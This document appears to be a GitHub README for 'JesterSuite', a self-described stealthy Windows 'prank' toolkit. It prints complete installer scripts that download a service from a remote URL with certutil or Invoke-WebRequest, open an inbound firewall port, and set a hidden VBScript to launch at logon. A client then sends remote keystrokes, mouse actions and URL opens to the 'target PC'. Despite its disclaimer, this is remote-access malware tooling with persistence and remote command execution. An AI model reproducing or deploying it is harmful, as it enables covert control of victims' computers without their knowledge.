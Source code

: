 # JesterSuite

**WARNING:** This software is designed strictly for **harmless pranks** on consenting targets. Use responsibly and at your own risk; you are fully liable for any outcomes.

---

## 📄 Overview

JesterSuite is a stealthy Windows prank toolkit featuring:

- **Prank Service:** Listens for remote commands to trigger chicanery (key presses, mouse jiggers, pop-ups, volume tweaks, simulated lag, URL opens, window minimization, etc.).
- **Auto-Update:** Service checks a remote URL periodically and auto-updates itself.
- **Auto-Startup Launcher:** Hidden VBScript loader that runs the service at logon.
- **Rich Client:** Interactive, colorful menu with scheduling and logging on your machine.
- **Health Check:** One-click environment tester that flags missing dependencies or misconfigurations.

---

## 📂 File Summary

| Component       | Filename                      |
|-----------------|-------------------------------|
| Prank Service   | `JesterService.pyw`           |
| Installer (Bat) | `Install-JesterSuite.bat`     |
| Installer (PS1) | `Install-JesterSuite.ps1`     |
| Launcher        | `JesterLauncher.vbs`          |
| Client          | `JesterClient.py`             |
| Health Check    | `JesterCheck.bat`             |

---

## 🚀 Quick Start

1. **Install Service**
   - On the **target PC**, run **either**:
     - `Install-JesterSuite.bat` (double-click)
     - `Install-JesterSuite.ps1` (PowerShell: `.\Install-JesterSuite.ps1`)
   - This will:
     - Create `%APPDATA%\PrankServer`
     - Install **PyAutoGUI**
     - Download `JesterService.pyw`
     - Open TCP port **9999** in the Windows Firewall

2. **Auto-Startup**
   - Copy `JesterLauncher.vbs` into the target user’s **Startup** folder:
     ```text
     Win+R → shell:startup → Enter
     ```

3. **Run Client**
   - On **your PC**, ensure Python 3.7+ is in `PATH`.
   - (Optional) `pip install colorama` for colored menus.
   - Launch:
     ```bash
     python JesterClient.py <TARGET_IP> [--port 9999]
     ```

---

## 🛠️ Setup Scripts

### 1. Batch Installer: `Install-JesterSuite.bat`
```bat
@echo off
setlocal
set "SCRIPT_URL=https://yourdomain.com/prank/JesterService.pyw"
set "INSTALL_DIR=%APPDATA%\PrankServer"
set "SCRIPT_PATH=%INSTALL_DIR%\JesterService.pyw"

:: Create directory
if not exist "%INSTALL_DIR%" (
  mkdir "%INSTALL_DIR%"
  echo ✓ Created %INSTALL_DIR%
) else (
  echo ℹ %INSTALL_DIR% exists
)

echo.
echo Downloading JesterService.pyw...
certutil -urlcache -split -f "%SCRIPT_URL%" "%SCRIPT_PATH%"
if exist "%SCRIPT_PATH%" (
  echo ✓ Downloaded to %SCRIPT_PATH%
) else (
  echo ✗ Download failed
  exit /b 1
)

echo.
echo Adding firewall rule...
netsh advfirewall firewall add rule name="PrankServer" dir=in action=allow protocol=TCP localport=9999

echo.
echo Install complete! Press any key to exit.
pause
endlocal
```

### 2. PowerShell Installer: `Install-JesterSuite.ps1`
```powershell
param([string]$Url = 'https://yourdomain.com/prank/JesterService.pyw')
$dir = "$env:APPDATA\PrankServer"
if (-Not (Test-Path $dir)) { New-Item -Path $dir -ItemType Directory }
Invoke-WebRequest -Uri $Url -OutFile "$dir\JesterService.pyw"
python -m pip install --user pyautogui
Try { New-NetFirewallRule -DisplayName 'PrankServer' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 9999 } Catch {}
Write-Host 'Installation finished.'
```

### 3. Auto-Startup Launcher: `JesterLauncher.vbs`
```vbscript
Option Explicit
Dim fso, wsh, scriptDir, svcPath
Set fso = CreateObject("Scripting.FileSystemObject")
Set wsh = CreateObject("WScript.Shell")
scriptDir = fso.GetParentFolderName(WScript.ScriptFullName)
svcPath = scriptDir & "\JesterService.pyw"
wsh.Run "pythonw """ & svcPath & """", 0
```

### 4. Health-Check: `JesterCheck.bat`
```bat
@echo off
setlocal

set "INSTALL_DIR=%APPDATA%\PrankServer"
set "SVC=%INSTALL_DIR%\JesterService.pyw"
set "LAUNCHER=%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\JesterLauncher.vbs"
set "RULE=PrankServer"
set "PORT=9999"

echo Checking Python...
python --version >nul 2>&1 && echo ✓ Python found || echo ✗ Python missing

echo Checking PyAutoGUI...
python -c "import pyautogui" >nul 2>&1 && echo ✓ PyAutoGUI installed || echo ✗ Missing pyautogui

echo Checking service script...
if exist "%SVC%" (echo ✓ %SVC% present) else (echo ✗ JesterService.pyw missing)

echo Checking launcher...
if exist "%LAUNCHER%" (echo ✓ %LAUNCHER% present) else (echo ✗ JesterLauncher.vbs missing)

echo Checking firewall rule...
netsh advfirewall firewall show rule name="%RULE%" >nul 2>&1 && echo ✓ Rule present || echo ✗ Rule missing

echo Checking port listener...
for /f "tokens=5" %%P in ('netstat -aon ^| findstr LISTENING ^| findstr :%PORT%') do set PID=%%P
if defined PID (echo ✓ Port %PORT% listening (PID=!PID!)) else (echo ✗ No listener on %PORT%)

echo Health check complete.
pause
endlocal
```

---

## 💻 Client Setup & Usage

- **File:** `JesterClient.py`
- **Run:**
  ```bash
  python JesterClient.py <TARGET_IP> [--port 9999]
  ```
- **Features:** Colored menus, scheduling, logging, help screen, cancel schedules.

---

## ✨ New Client Features

See the **Features** section in the client for details on scheduling and logging.

---

## 🐞 Troubleshooting

- **Connection issues:** Verify IP, port `9999`, and firewall rule.
- **Python errors:** Ensure Python 3.7+ in PATH and `pyautogui` installed.
- **Auto-update fails:** Check URLs for `JesterService.pyw` and version manifest.

---

## 📜 License & Legal

MIT © YourName. No liability for misuse.
